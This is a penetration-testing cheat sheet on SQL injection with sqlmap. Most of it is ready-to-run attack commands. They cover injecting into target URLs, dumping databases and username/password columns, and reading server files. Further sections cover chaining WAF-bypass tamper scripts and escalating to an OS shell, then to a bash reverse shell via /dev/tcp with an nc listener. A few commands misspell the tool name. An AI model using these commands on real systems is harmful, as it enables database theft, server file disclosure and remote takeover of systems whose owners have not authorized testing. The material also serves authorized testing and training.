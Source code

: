 ```yaml
---
title: SQL Injection with Sqlmap
description: SQL injection (SQLi) is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution. This page provides how to inject SQL using sqlmap.
tags:
    - Database
    - Reverse Shell
    - SQL Injection
    - Web
refs:
date: 2023-02-10
draft: false
---
```


## Basic Commands

```sh
# GET request
sqlmap -u "http://<target-ip>/?search=test"
# -p: target parameter
sqlmap -u "http://<target-ip>/?category=test&item=1" -p item 

# Header param injection
sqlmap -u "https://example.com/?search=test" --headers "X-Forwarded-For: 1*"

# POST request
sqlmap -u "http://<target-ip>" --data="username=test&password=test"
```

<br />

## Using Request File

We can specify a request file which is generated in **Burp Suite**.  
It can be used by adding the **"-r"** flag.

```sh
sqlmap -r request.txt
sqlmap -r request.txt --dump --dbs --tables --columns --random-agent
sqlmap -r request.txt --dump --dbms mysql --risk 3 --level 5

# --fresh-queries: new data in tables
sqlmap -r request.txt --fresh-queries

# --current-user: Retrieve current user
sqlmap -r request.txt --current-user
# --current-db: Retrieve current DB
sqlamp -r request.txt --current-db

# Specify dabase name, table name, column name
sqlmap -r request.txt -D database_name -T table_name -C column_name
# Specify multiple columns
sqlmap -r request.txt -D database_name -T table_name -C username,password

# --technique U: Union attack
# --delay 2: Time delay
sqlmap -r request.txt --technique U --delay 2
# --technique T: Time-based Blind SQLi
sqlmap -r request.txt --technique T

# --time-sec: Sleep time for Time-Based Blind SQLi
sqlmap -r request.txt --time-sec 2

# --ignore-code: Ignore specific response
sqlmap -r request.txt --ignore-code 401

# --dump-all: Dump all database table entries
sqlmap -r request.txt --dump-all
```

<br />

## Web Shell

Add option "--os-shell" to interact with web shell.

```sh
sqlmap -u "http://<target-ip>" --cookie="value=*" --os-shell
```

After activating, you may want to upgrade to the full functional shell.  
You can do that using reverse shell.

In your local machine,

```sh
nc -lvnp 4444
```

Then execute the following command in web shell.

```sh
os-shell> bash -c 'bash -i >& /dev/tcp/<your-local-ip>/4444 0>&1'
```

<br />

## Read Files

```sh
# --batch: never ask for user input, use the default behavior
sqlmap -r request.txt --file-read "/var/www/html/index.php" --time-sec 10 --batch
sqlmap -r request.txt --file-read "/var/www/<subdomain>/index.php" --time-sec 10 --batch

sqlmap -u "http://<target-ip>/?q=test" --file-read "var/www/html/index.php" --time-sec 10 --batch
```

<br />

## Tamper

The sqlmap can be tampered by custom python script e.g. tamper.py or the default library.

### WAF (Web Application Firewall) Bypass

[This post](https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3) explains details for what each module works.

```bash
# General
sqlmap -r request.txt --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes

# MSSQL
sqlmap -r request.txt --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes

# MySQL
sqlamp -r request.txt --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```

### Custom tamper modules (Base64 encode)

We can also create our custom modules.  
For instance, we create "tamper.py".

```py
#!/usr/bin/python3
from lib.core.convert import encodeBase64
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass
    
def tamper(payload, **kwargs):
    payload = encodeBase64("%s" % payload, binary=False)
    return payload
```

Then execute sqlmap.

```sh
# The tamper is a module, so we need to create __init__.py in the current directory.
touch __init__.py
sqlmap -u "https://example.com/" --cookie "session=*" --tamper=tamper.py
```

### Multiple Requests

```py
#!/usr/bin/python
import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

address = "http://vulnerable.com"
password = "test"

def dependencies():
    pass

def create_account(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/signup", data=data)

def login(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/login", data=data)
        sessid = s.cookies.get("session", None)
    return "session={}".format(sessid)


def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    create_account(payload)
    headers["Cookie"] = login(payload)
    return payload
```

Then run the sqlmap with the tamper option.

```sh
sqlmap --tamper tamper.py --url http://vulnerable.com/signup --data "username=admin&password=test" --second-url "http://vulnerable.com/post" --no-cast
```
